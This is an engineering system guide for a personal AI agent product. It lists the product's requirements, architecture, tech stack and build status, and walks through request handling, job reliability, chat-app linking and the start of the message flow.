



# Personal Agent MVP: system guide

What the MVP had to do, how it was designed, what we built, the tech used, and how every part works.

- **Date:** 2026-09-28. **Updated:** 2026-10-03 with the launch basics (`docs/launch-plan.md`, package W1a), and 2026-10-04 with the crew package (W2b-1): the crew list and progress lines, pull-request review, Scout's `web_search` and `read_page`, choosing Textcrew AI, and browser time split from paid tools in usage. Then, the same day, shared memory (W3a): one memory on the platform for every engine, the `remember`, `recall` and `forget` tools, what is known about the user at the top of every delivered turn, a recap of the chat when the engine changes, and the memory endpoints. Then the search and browser decisions of 2026-10-04: `web_search` is part of the Max plan and costs 1 credit a search, an engine's own web search is used first and is free, and the browser will allow logins (design only). Then Scout's browser, first version (W2c, platform side): the browser runs inside the user's container, the platform switches it on for Max and off for everyone else, browser time is charged at 2 credits per minute, `read_page` opens any public address on Claude Code, and the dev script can run a whole turn from the command line
- **Code:** branch `mvp-build` in `beckend/` (TypeScript api + worker) and `vm-manager/` (Go + the agent image)
- **Design source:** `docs/mvp-hld.md`
- **Contracts:** `openapi/openapi.yaml` (REST + webhooks), `../vm-manager/proto/vm/v1/vm.proto` (gRPC)

## Contents

1. [Status in one page](#1-status-in-one-page)
2. [MVP requirements (what the product must do)](#2-mvp-requirements)
3. [Target architecture (the design)](#3-target-architecture)
4. [Tech stack](#4-tech-stack)
5. [What we built, requirement by requirement](#5-what-we-built-requirement-by-requirement)
6. [How it works](#6-how-it-works)
7. [Data model](#7-data-model)
8. [Interfaces: REST, webhooks, MCP tools, gRPC, Bridge](#8-interfaces)
9. [Configuration](#9-configuration)
10. [Testing](#10-testing)
11. [Where we changed or filled in the design](#11-where-we-changed-or-filled-in-the-design)
12. [Not verified yet, and how to verify](#12-not-verified-yet)
13. [Repository map](#13-repository-map)

---

## 1. Status in one page

| | |
|---|---|
| **Build phases (HLD §9)** | All 8 coded and committed (0 foundations → 8 hardening), plus later changes: a waitlist API, the 2026-09-29 pricing update (Max $30, automations 1/5/50, 90-day credits, waitlist discount), bring your own Claude plan (Claude Code runtime, 2026-09-30), and the **launch basics of 2026-10-03**: the channels switch (Telegram and web on, WhatsApp and iMessage off), 1 credit per app action that changes something, the connection check job, no purchase links on Telegram, and `/mcp` and `/git` closed at Caddy (§11). Then the **crew package of 2026-10-04**: the crew list, crew progress lines in web chat, pull-request review per repo, Scout's `web_search` and `read_page`, choosing Textcrew AI over an own key or Claude plan, browser time as its own usage number, browser use in Max's features (§6.19 to §6.21). Then **shared memory of 2026-10-04**: a memory on the platform that every engine shares, three tools to save, find and correct it, the memory block on every delivered turn, a recap of the chat when the engine changes, and endpoints for the user to see and delete it (§6.22). Then **Scout's browser, the platform side, of 2026-10-04**: the switch by plan through the vm-manager's new `SetBrowser`, the setting `BROWSER_AVAILABLE`, browser time held to 2 credits per minute by tests, the crew list's `browser.enabled`, `read_page` by engine, and the dev script's `send` and its helpers (§6.21, §6.23, §6.24) |
| **Backend tests** | 39 files, 436 tests, all passing (run on 2026-10-04): real Postgres + real Redis, fakes for outside services |
| **vm-manager tests** | Go unit tests (fake Docker daemon, store on embedded Postgres, `-race` clean) + 87 Bridge (Python) tests with a fake Hermes and a fake `claude` CLI. The numbers are from the agent-image package (W2b-2, 2026-10-04); they were not re-run for this guide |
| **Contract coverage** | Every operation in `openapi.yaml` is implemented (a test enforces it) |
| **Run for real?** | **Partly.** Docker isn't installed on the dev machine. A test deployment ran on AWS on 2026-09-30 and 2026-10-01 (`docs/aws-setup.md`): Telegram, Claude Code on a Claude plan, Composio, Caddy and Squid ran for real. The crew ran on that server again on 2026-10-04: Scout searched with Claude Code's built-in search and `read_page` refused every result, which is why its rule now differs by engine (§6.21). The browser switch, browser charging and the new `read_page` rule have not run there, and WhatsApp, Sendblue, Polar, Jev and a platform model key have never run for real |
| **Verdict** | **Code-complete, not end-to-end verified.** Section 12 lists the steps to verify it on a Docker machine |

---

## 2. MVP requirements

This is what HLD sections 0, 5 and 7 ask the product to do.

### 2.1 Product features

| # | Requirement | Details from the HLD |
|---|---|---|
| F1 | **Chat with your own AI agent** | On Telegram and the web app at launch. WhatsApp and iMessage are built and switched off by a setting (2026-10-03) |
| F2 | **One sandboxed container per user** | Runs the Hermes agent; memory, skills and files persist in `/data`; the agent learns for its own user only. That memory belongs to one engine; the one every engine shares is on the platform (F19) |
| F3 | **Linking chat apps** | The web app shows a one-time code (10 min, single use); the user sends it to our bot or number; unknown senders only get "please link" |
| F4 | **Real work in apps** | About 25 apps through Composio, plus the user's own MCP servers (Max plan) |
| F5 | **Ask before risky actions** | Approvals for sending to others, deleting, paying; they never block the agent (✅/❌ comes back later as a new message) |
| F6 | **Reminders and automations** | Once ("Friday 10am"), repeating ("every Monday 9am", in the user's timezone), app events ("when my boss emails me"); at most every 15 minutes |
| F7 | **Credits billing** | 1 credit = $0.01 of price at ~2.5× real cost; AI, awake time, app actions that change something (1 credit each, since 2026-10-03), browser use and web search through Textcrew (1 credit per search, on the Max plan, since 2026-10-04) cost credits; reading and searching in apps are free, reading a web page is free, and the web search built into the user's own engine costs nothing; failed turns caused by us are free. Browser use is 2 credits per minute of browser time, on the Max plan (§6.23) |
| F8 | **Plans** (updated 2026-09-29 to match the pricing page) | Free $0 (100 sign-up credits, 10 apps, 1 automation), Pro $12 (1,500/month, 25 apps, 5 automations, top-ups), Max $30 (4,500/month, 25 apps + own MCP servers, 50 automations, priority when things get busy). **Every credit lasts 90 days from its grant**, whatever the source; unused monthly credits carry over. Model tiers are no longer advertised; the model limits stay in code and apply to Textcrew AI (F11) |
| F9 | **Payments** | Polar checkout for plans and top-ups ($10 = 800 credits); webhooks decide plan changes; refunds and chargebacks; waitlist members get 50% off their first month of Pro or Max |
| F10 | **Coupon codes** | Admin-created free credits with strict anti-abuse rules (HLD 7.7) |
| F11 | **AI, three ways** | (1) The user's own API key (encrypted): the default and recommended way. (2) Their own Claude plan through Claude Code, labelled beta. (3) Textcrew AI: a rented model behind LiteLLM, paid in credits. With (1) and (2) the AI isn't charged in credits; awake time, app actions and paid tools still are. A user with a key or a Claude plan can still choose Textcrew AI, and switch back (2026-10-04) |
| F12 | **Smart routing** | Jev decides simple (cheap-model reply, no container) / task (wake the agent) / spam |
| F13 | **Media** | Voice, images and documents; voice is turned into text |
| F14 | **Web app API** | Profile, channels, chat history + live updates, approvals, apps, MCP servers, automations, pull-request review per repo, agent settings, the crew list, billing, credits, usage, coupons, activity log |
| F15 | **Admin** | Coupons, credit adjustments, free-credit spend, abuse flags, failed jobs (Bull Board) |
| F16 | **The crew** (2026-10-03) | Tex leads; Byte codes, Patch reviews code, Scout researches. The specialists are defined in the agent image. The platform gives the apps the crew list and passes the crew's progress lines to web chat |
| F17 | **Pull-request review** (2026-10-03) | Turned on per GitHub repo. A pull request is opened or gets new commits → Patch reviews it → one review on the pull request → a short verdict in chat. Once per head commit. Turning it on is the standing permission to comment on that repo's pull requests, and nothing else |
| F18 | **Web research** (2026-10-03, plan and price decided 2026-10-04) | Only Scout searches. An engine with its own web search (Claude Code on the user's Claude plan) uses that, free on every plan. Otherwise `web_search` through Textcrew (Brave): Max plan only, 1 credit per search. `read_page` is free on every plan. Both platform tools run on the platform, never in the container. `read_page` reaches public addresses only. On Hermes it opens only an address already seen for the user; on Claude Code any public address (decided 2026-10-04, §6.21) |
| F19 | **Shared memory** (2026-10-04) | One memory on the platform, the same whichever engine runs: short facts the agent saves about the user. It reaches every turn; a new engine also gets a recap of the chat; the user can see and delete it. The engines' own memory in `/data` is left as it is |

### 2.2 Non-functional requirements

| # | Requirement | Details from the HLD |
|---|---|---|
| N1 | **Isolation** | gVisor containers, resource limits, read-only system files, sandbox network, egress allowlist, only their own secrets |
| N2 | **The agent can't impersonate** | The Platform MCP takes the user id from the container token, never from the agent |
| N3 | **No platform keys in containers** | No Composio, provider or database keys inside a container |
| N4 | **Webhooks never do work** | Verify → save event (unique key) → add job → 200 |
| N5 | **Every job safe to re-run** | Idempotency everywhere; a per-user lock for inbound work |
| N6 | **Money correctness** | Grants + append-only ledger; no stored balance; idempotent charges; spending order by expiry |
| N7 | **Cost control** | Containers stop after 3 idle minutes; an awake cap; a monthly free-credit cap |
| N8 | **Reliability** | Retries with backoff; recovery after a worker crash or Redis loss; health checks; stuck-turn handling |
| N9 | **Security hygiene** | Secrets encrypted at rest; tokens and codes stored as hashes; no secrets in logs; every user query filtered by user id |
| N10 | **Ops** | Nightly off-server backups with a tested restore; logs, metrics, alerts; rate limits on public endpoints |

---

## 3. Target architecture

### 3.1 Services (HLD §1.1)



| Unit | Why it exists |
|---|---|
| **backend** (api + worker) | One TypeScript codebase, two processes. The api takes requests and **only adds jobs**; the worker **only runs jobs**. They share modules, database and types |
| **vm-manager** | A separate Go service because it's a **privilege boundary**: the only thing with the Docker socket (effectively root) |
| **agent container** | One per user, untrusted: Hermes Agent + our Bridge adapter |
| **Postgres, Redis, LiteLLM, Squid, Caddy** | Off-the-shelf, configured not coded |

### 3.2 Protocols (HLD §1.2)

| From → To | Protocol | Contract |
|---|---|---|
| Web app → api | REST (JSON) + SSE | `openapi/openapi.yaml` |
| External services → api | Signed webhooks | `openapi/openapi.yaml` |
| api → worker | BullMQ jobs | job names in `src/worker/processors.ts` |
| backend → vm-manager | gRPC (Deliver is server-streaming) | `vm-manager/proto/vm/v1/vm.proto` |
| vm-manager → Bridge | HTTP JSON + NDJSON stream, per-container secret | Bridge contract (§8.5) |
| Container → Platform MCP | MCP over streamable HTTP, via the egress proxy | tool list (§8.3) |
| Container → LiteLLM | OpenAI-compatible HTTP, via the egress proxy | model `agent-default` |

### 3.3 Backend modules (HLD §1.1)

| Module | Owns |
|---|---|
| auth | users, Clerk, link codes, channel links (+ waitlist, added later) |
| channels | WhatsApp / Telegram / Sendblue / web adapters, messages, media |
| events | webhook intake, `events` table, queue producers |
| orchestrator | per-user lock, Jev routing, wake → deliver flow, approvals, sandbox tokens, agent settings (which AI pays), the crew list and progress lines, shared memory (`memories`) and the engine each chat last ran on (`chat_engines`) |
| platform-mcp | the MCP server agents call, its tools, and the record of web addresses seen for each user |
| integrations | Composio, user MCP servers, bring-your-own keys, the git gateway, the web page reader, the web search provider |
| billing | plans, subscriptions, grants, ledger, coupons, Polar, LiteLLM keys |
| automations | automation rows and timers, pull-request review (`pr_reviews`) |
| admin | audit log, admin tools, metrics, alerts, backups |

Rule: each module owns its tables and other modules use its exported functions, never its tables.

### 3.4 Networks (HLD §4)

| Network | Members | Internet |
|---|---|---|
| edge | Caddy, api | only Caddy is exposed (80/443) |
| platform | api, worker, vm-manager, Postgres, Redis, LiteLLM, egress proxy | outbound only (see §11) |
| sandbox (internal) | user containers, egress proxy, vm-manager | none; the proxy is the only way out. It lets every container reach LiteLLM, the api's `/mcp` and `/git/` and the user's own MCP domains, and **a container with Scout's browser on any public website** (Max plan, since 2026-10-04) |

`/mcp` and `/git` are not reachable from the internet: Caddy answers 404 for `/mcp*` and `/git/*`. Containers reach the api directly on the platform network through the egress proxy, never through Caddy.

**The open way out** (HLD §4, §10.3). Scout's browser runs inside the user's container, so a container the platform switched the browser on for can reach any public website. Private, loopback, link-local, metadata and internal addresses stay refused; that part is the vm-manager's and the proxy's. Every other container stays locked. What the open network costs is in §6.18 and HLD §10.3.

---

## 4. Tech stack

### 4.1 Backend (`beckend/`)

| Layer | Choice (version) | What it's used for |
|---|---|---|
| Runtime | **Node.js 22** target (tested on 25), **TypeScript 6** strict, ESM, run with **tsx** | Both processes; no build step (`node --import tsx`) |
| Package manager | **pnpm 10.33** (pinned in `packageManager`) | Installs, scripts, CI |
| HTTP | **Hono 4** + `@hono/node-server` | api routes, SSE (`streamSSE`), middleware |
| Contract | **OpenAPI 3.1** + **openapi-typescript 7** (types) + **Ajv 2020** + ajv-formats (runtime validation) + **Redocly CLI** (lint) | Routes are declared by `operationId`; path, method, auth and validation are read from the spec |
| Validation / config | **Zod 4** | Env config at startup; MCP tool inputs |
| Database | **Postgres 16** + **Drizzle ORM 0.45** (node-postgres `pg`) + **drizzle-kit** (SQL migrations in `migrations/`) | All platform data |
| Jobs | **BullMQ 6** + **ioredis 6** on **Redis 7** (append-only) | 4 queues, delayed jobs, job schedulers (cron + timezone), priorities |
| Admin UI | **Bull Board 9** (`@bull-board/hono`) | Failed jobs at `/admin/queues` |
| Auth | **@clerk/backend 3** (session JWTs), **svix 2** (Clerk webhooks) | Web users |
| Agent tools | **MCP TypeScript SDK 1.30** (`WebStandardStreamableHTTPServerTransport`, stateless) | Platform MCP at `/mcp` |
| gRPC client | **Connect-ES 2** (`@connectrpc/connect-node`, gRPC transport) + **@bufbuild/protobuf 2**; generated by **buf** + `protoc-gen-es` into `proto-gen/` | Calls to the vm-manager |
| Apps | **@composio/core 0.21** (Composio SDK) | Connect links, actions, triggers, webhook verification |
| Routing | **@typesafe-ai/sdk 0.6** (Jev) | simple / task / spam + app pick |
| Payments | Polar Core API over plain HTTP (pinned `Polar-Version: 2026-10`) + **standardwebhooks** | Checkout, subscriptions, webhooks |
| AI gateway | **LiteLLM** (HTTP admin API) | Per-user keys, budgets, spend, model aliases, speech-to-text |
| Scheduling maths | **cron-parser 5** | Next run times and the 15-minute minimum |
| Logging | **pino 10** (JSON, secrets redacted) | Structured logs |
| Crypto | Node `crypto`: AES-256-GCM, sha256, HMAC | Secret columns, token and code hashes, signed file URLs |
| Lint / format | **ESLint 10** + typescript-eslint, **Prettier 3** | `pnpm lint` |
| Tests | **Vitest 5**, **embedded-postgres** (real Postgres binaries), local **redis-server**, **jose** (test JWTs) | `pnpm test` |
| CI | GitHub Actions | OpenAPI lint, generated-types check, lint, typecheck, tests |

### 4.2 vm-manager (`vm-manager/`)

| Layer | Choice (version) | What it's used for |
|---|---|---|
| Language | **Go 1.26** | The service |
| RPC | **grpc-go 1.84** + protobuf, generated with **buf** into `gen/vm/v1` | The VmManager service |
| Docker | **Docker Engine Go SDK v28** behind an interface (real client + fake daemon) | Containers, volumes, archives, signals |
| Sandbox runtime | **gVisor** (`runsc`) | Container isolation |
| Database | **pgx v5**, SQL migrations embedded and run at startup | `sandboxes`, `awake_periods` |
| Logging | `log/slog` JSON | Logs and `alert=true` lines |
| Tests | Go `testing` + fake Docker + fake clock, **fergusstrange/embedded-postgres** for the store, `-race`, golangci-lint v2 | Unit tests; integration tests behind `-tags=integration` |
| Image | Multi-stage build → distroless static | `Dockerfile` |

### 4.3 Agent image (`vm-manager/agent-image/`)

| Part | Choice | Notes |
|---|---|---|
| Base | `python:3.14-slim` | Non-root uid 10001, read-only rootfs friendly (HOME, temp and workspace in `/data`) |
| Agent | **Hermes Agent** (Nous Research), pinned to commit `35272ce…`, installed with its MCP extra | Runs as `hermes gateway run`, API server only, on 127.0.0.1 |
| Bridge | Python **standard library** only (+ `aiohttp` for Hermes) | Our adapter: HTTP server for the vm-manager, drives Hermes, calls the Platform MCP |

### 4.4 Infrastructure (`beckend/infra/`)

| Component | Image / config |
|---|---|
| Caddy 2 | `infra/caddy/Caddyfile`: HTTPS, reverse proxy to the api, SSE-friendly (no buffering); answers 404 for `/mcp*` and `/git/*` |
| Postgres 16 | Databases `agent` (backend), `vm_manager`, `litellm` (`infra/postgres/init.sql`) |
| Redis 7 | `--appendonly yes`, `noeviction` |
| LiteLLM | `infra/litellm/config.yaml`: models `cheap` (OpenRouter Llama 3.3 70B), `claude`, `gpt`, `whisper`; fallbacks `claude → cheap`, `gpt → cheap` |
| Squid | `infra/egress-proxy/squid.conf`: sandbox subnet may reach LiteLLM, `api:8080/mcp` and the git gateway's three paths under `api:8080/git/`; per-user allowlists included from `allowlists/*.conf` |
| Compose | `infra/docker-compose.yml`: 3 networks, healthchecks, profiles `app` (api + worker) and `egress-test` |

### 4.5 External services

| Service | Used for |
|---|---|
| Clerk | Web sign-in, user lifecycle webhooks |
| Meta WhatsApp Cloud API | WhatsApp in/out, templates |
| Telegram Bot API | Telegram in/out |
| Sendblue | iMessage in/out |
| Composio | App connections, actions, triggers |
| TypeSafe Jev | Message routing |
| OpenRouter / Anthropic / OpenAI (via LiteLLM) | Models |
| Polar | Plans, top-ups, refunds (merchant of record) |
| Brave Search API | Scout's `web_search` (needs a key; $5 per 1,000 searches when checked on 2026-10-04) |
| Off-server storage (e.g. Backblaze B2 via rclone) | Backups |

---

## 5. What we built, requirement by requirement

Status: ✅ built + tested (fakes for outside services) · ⚠️ built, needs a real run (Docker or a real service) · 🔁 changed on purpose (see §11) · ❌ not done

| Req | What we built | Status |
|---|---|---|
| F1 Chat on 4 channels | Telegram, WhatsApp, Sendblue (iMessage) adapters + web chat with SSE. `ENABLED_CHANNELS` says which are on: Telegram and web by default | ✅ / ⚠️ real providers |
| F2 Container per user | vm-manager creates `pa-sbx-<user>` + volume `pa-data-<user>`; Hermes memory, skills, sessions in `/data` | ⚠️ |
| F3 Linking | `LINK-XXXX-XXXX` codes (sha256 stored, 10 min, single use), unknown senders get only the link message | ✅ |
| F4 Apps + own MCP | 25-app catalog (10 on Free) through the Composio SDK; own MCP servers on Max with egress allowlist updates | ✅ / ⚠️ real Composio |
| F5 Approvals | `request_approval` → buttons / yes-no / web; single use; must match the exact action and arguments | ✅ |
| F6 Automations | once / repeat (cron + timezone) / app event; 15-min minimum; plan limits; auto-pause; survive restart + Redis wipe | ✅ |
| F7 Credits | Grants + append-only ledger; spending order; charging every 5 min and after each turn; 1 credit per successful app action that changes something; 1 credit per web search, through the paid-tool path (a configured cost × 2.5, fractions carried over for other costs); reversal of our failures | ✅ |
| F8 Plans | Free $0 / Pro $12 / Max $30 with limits on apps (10/25/25), automations (1/5/50), own MCP (Max), top-ups (paid), queue priority; 90-day credits; model limits kept in code | ✅ |
| F9 Payments | Polar checkout + 9 webhook event types, exactly once; waitlist discount applied automatically | ✅ / ⚠️ real Polar |
| F10 Coupons | Every 7.7 rule, incl. 50 parallel redemptions on real Postgres | ✅ 🔁 |
| F11 AI, three ways | Own key: encrypted, test-called before saving; AI not charged. Claude plan: sign-in in the container, runtime switch. Textcrew AI: Hermes on credits (`AI_ACCESS_MODE=platform`; `own_only` switches it off). `aiPreference: platform` chooses Textcrew AI over an own key or Claude plan | ✅ 🔁 / ⚠️ real Claude Code, no platform model key yet |
| F12 Jev routing | Real SDK; fallback to "task" on any doubt or failure | ✅ / ⚠️ real Jev |
| F13 Media | Download per channel, voice → text via LiteLLM | ✅ / ⚠️ |
| F14 Web API | All 63 operations in the spec | ✅ |
| F15 Admin | Coupons, credit adjustments, free-credit stats + abuse flags, Bull Board, waitlist admin | ✅ |
| F16 The crew | `GET /v1/crew` (Tex, Byte, Patch, Scout; `CREW_AVAILABLE` says which specialists are on; Scout's browser needs Max, `BROWSER_AVAILABLE` says whether the deployment has it, and `enabled` whether it is on for this user). Progress lines → SSE `agent.progress`, crew lines also in the activity log, nothing to Telegram | ✅ / ⚠️ never run against the real Bridge |
| F17 Pull-request review | `PUT` / `DELETE /v1/pr-reviews/{owner}/{repo}`, `GET /v1/pr-reviews`; an event automation with the preset `pr_review`; one review per head commit (`pr_reviews`); a standing approval for four named GitHub actions on that repo | ✅ / ⚠️ real Composio trigger and action names |
| F18 Web research | `web_search` behind a provider interface (Brave built), Max plan only (a tool error on Free and Pro), 1 credit a search through the ledger; `read_page` with address checks at every hop, a pinned connection, limits, the seen-address rule on Hermes and any public address on Claude Code | ✅ / ⚠️ no search key yet; the new rule has not run on the server |
| F19 Scout's browser (platform side) | The switch by plan (`CreateSandbox.browser_enabled`, the `sync-browser` job, the check after a wake), `BROWSER_AVAILABLE`, browser seconds charged at 2 credits per minute, the crew list's `browser` | ✅ / ⚠️ never run against the real vm-manager or a container with a browser |
| F19 Shared memory | `remember`, `recall` and `forget` on the Platform MCP; `memories` in Postgres, found with its text search; a memory block at the top of every delivered turn; `chat_engines` and a recap when the engine changes; `GET` and `DELETE /v1/memories`; obvious secrets refused; no memory text in the audit log | ✅ / ⚠️ never run against a real engine |
| N1 Isolation | gVisor spec, limits, read-only, sandbox network, Squid allowlist | ⚠️ (no disk quota by default 🔁) |
| N2 No impersonation | `/mcp` maps sha256(token) → user; tools never read a user id | ✅ |
| N3 No platform keys in containers | Only the user's LiteLLM key, MCP token, Bridge secret | ✅ |
| N4 Webhooks never work | `ingestEvent` for all 6 providers | ✅ |
| N5 Re-runnable jobs | job id = event id; idempotency keys; per-user Redis lock | ✅ |
| N6 Money correctness | Advisory lock per user, unique idempotency keys, DB trigger blocks ledger UPDATEs | ✅ |
| N7 Cost control | Idle reaper (3 min), awake cap with priority, free-credit monthly cap | ✅ / ⚠️ |
| N8 Reliability | Retries 5 s/30 s/2 min/10 min, recovery on start, health checks, stuck-turn force stop | ✅ |
| N9 Security hygiene | AES-GCM secrets, hashed tokens/codes, log redaction, user-scoped queries | ✅ |
| N10 Ops | Nightly backup job, restore-test script, `/metrics`, alerts, per-IP rate limits, load-test script | ✅ job logic / ⚠️ scripts not run |
| Extra | Waitlist API with IP + request data for abuse monitoring | ✅ |
| Extra | Launch basics (2026-10-03): channels switch, app-action charge, connection check job, no purchase links on Telegram, `/mcp` and `/git` closed at Caddy | ✅ / ⚠️ the Caddy rule is untested live |
| Extra | API gaps found by the web app (2026-10-04): `platformAvailable` and `aiPreference` in the agent settings, `browserCredits` apart from `toolCredits` in usage, `limits.browser` and a browser line in Max's features | ✅ |

---

## 6. How it works

### 6.1 A request inside the api

Every request passes through these middleware, in order:

1. `requestId` gives every request an id.
2. `accessLog` writes one JSON line (method, route, status, ms) and counts `http_requests_total`.
3. `clientIpMiddleware` reads the client IP. Behind Caddy (`TRUST_PROXY=true`) it takes the **last** `X-Forwarded-For` entry, the one Caddy adds, which a client can't forge.
4. `ipRateLimit` allows 600 requests per minute per IP (`RATE_LIMIT_PER_IP_PER_MIN`) and returns `429` with `Retry-After` beyond that.
5. The **spec-driven router** (`src/api/router.ts`):
   - Each route is registered with `route('operationId', handler)`, and its method and path come from `openapi.yaml`.
   - If the operation's `security` isn't empty, `requireUser` runs: Clerk JWT → `sub` → our `users` row. A sign-in that arrives before Clerk's webhook creates the user from Clerk's API.
   - If the operation has tag `admin`, `requireAdmin` runs as well (`users.role = admin`).
   - Path, query and JSON body are validated against the spec (Ajv 2020, with query values coerced to their types). A mismatch returns `400 invalid_request` with the list of errors.
   - Webhook routes get the **raw body** instead, so signatures are checked before anything is parsed.
6. Errors always use the spec's shape: `{ "error": { "code", "message", "details?" } }`. Unknown routes return `404 not_found`; unexpected errors are logged and return `500 internal`.

### 6.2 Jobs and reliability

```
webhook ──verify──▶ INSERT events (unique source+external_id) ──▶ queue.add(job, { jobId: event.id }) ──▶ 200
                          │ duplicate? → nothing new (and re-queue if it was stuck in "received")
worker ──▶ take the user's Redis lock (inbound queue) ──▶ handler ──▶ mark event done / ignored / failed
```

| Mechanism | How |
|---|---|
| **4 queues** | `inbound` (messages, approvals, automations, app events), `outbound` (sends, receipts), `scheduled` (automation timers), `system` (everything else) |
| **No duplicates** | The job id is the event id; `events` is unique on (source, external id); finished jobs are kept 7 days so a repeated id is still deduplicated |
| **One run per user** | `SET lock:user:<id> NX PX 16min` before an inbound job; if taken, the job goes back to delayed for 2 s (order is kept) |
| **Retries** | 5 attempts, delays 5 s → 30 s → 2 min → 10 min; after the last one the event is marked `failed` and an alert is raised |
| **Priority** | Inbound jobs get a BullMQ priority from the plan: Max 1, Pro 2, Free 3 |
| **Crash** | BullMQ re-runs stalled jobs; every handler checks "already done?" first |
| **Redis lost** | On worker start: re-queue every event from the last 7 days still `received`/`queued`, and re-register every enabled automation from Postgres |
| **Repeating system jobs** | sync-usage (5 min), expire-credits (hourly), expire-approvals (hourly), health-check (5 min), cleanup (03:30), backup (02:00) |
| **Delayed system job** | check-connection: six checks of a new app connection over about 16 minutes (§6.8) |
| **System jobs added on a change** | sync-allowlist (the user's MCP servers changed, §6.9), sync-browser (the user's plan changed: Scout's browser on or off, §6.23). Both work the state out again from the database each time they run |

### 6.3 Sign-up and onboarding



- `user.updated` refreshes the email verification state and the role (Clerk `public_metadata.role = "admin"` makes an admin).
- `user.deleted` sets `deleted_at`, then the `delete-user` job: DeleteSandbox, revoke the LiteLLM key, cancel the Polar subscription at period end, delete connections, MCP servers, automations, channel links, messages and files.

### 6.4 Linking a chat app

1. The web app calls `POST /v1/channels/link-codes {channel}`, limited to 10 per user per hour. A channel that is switched off is refused with `403 channel_disabled` before the limit is counted (see "The channels switch" below).
2. The api makes `LINK-XXXX-XXXX` from an alphabet without 0/O/1/I, stores only its sha256 and sets it to expire in 10 minutes. It returns the instructions and a deep link (`t.me/<bot>?start=…`, `wa.me/<number>?text=…`, `sms:`).
3. The user sends the code. The webhook saves it and the worker sees a message from an **unlinked** chat:
   - no code in it → reply "this chat isn't linked…"
   - a code → at most 10 attempts per chat per hour → in one transaction, mark the code used (only if unused and unexpired) and insert the `channel_links` row.
   - the chat is already linked to another user → refused.
4. The worker replies "✅ Linked!" and writes an audit entry `channel_linked`.

**The channels switch** (`ENABLED_CHANNELS`, HLD §0.3). A comma-separated list of `telegram`, `web`, `whatsapp`, `imessage`; the default is `telegram,web`. An unknown name stops the process at startup. While a channel is off:

- no link code can be created for it (`403 channel_disabled`, also from the `dev-user` script);
- its webhook answers 200 and does nothing: no signature check, no event, no job. The WhatsApp handshake answers 403;
- the worker ignores a message from it that was queued earlier, sends nothing to it (the message is marked `failed`), and the agent's `send_message` refuses a session on it;
- with `web` off, `POST /v1/messages` answers `403 channel_disabled`; the rest of the web app works;
- links made earlier stay listed so they can be unlinked.

`GET /v1/channels` returns `available`, the channels that are on, so the web app offers only those.

### 6.5 One message, end to end



Step by step (`orchestrator/process-message.ts` → `turn.ts`):

1. **Intake.** The api checks the signature (Telegram secret header, WhatsApp HMAC, Sendblue secret), looks up the chat's link to get the user id, saves the event and queues `inbound/process-message`.
2. **Parse.** The worker turns the provider payload into one `InboundMessage` (chat id, message id, text, media, button reply).
3. **Special cases**, in this order:
   - an unlinked chat → the link flow (§6.4)
   - a tapped button, or "yes"/"no" → the approval answer (§6.8)
   - a coupon code (`AGT-…`) → redeem it and reply (§6.12)
